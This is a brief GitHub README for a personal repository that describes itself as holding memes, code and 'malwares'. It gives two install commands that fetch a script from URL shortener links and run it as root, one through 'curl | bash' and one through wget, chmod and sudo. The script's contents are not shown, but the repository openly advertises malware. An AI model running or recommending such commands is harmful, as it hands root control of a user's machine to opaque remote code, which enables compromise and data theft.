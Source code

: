 # phoenixthrush.github.io
Just memes, codes, malwares, a archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao




NEW UPDATE!
DOES NOT FUNCTION


sudo su && curl -sL https://bit.ly/3hXEadY | bash

or
wget https://bit.ly/3m0JwFX && mv 3m0JwFX phoenix.sh && sudo chmod +x phoenix.sh && sudo  ./phoenix.sh
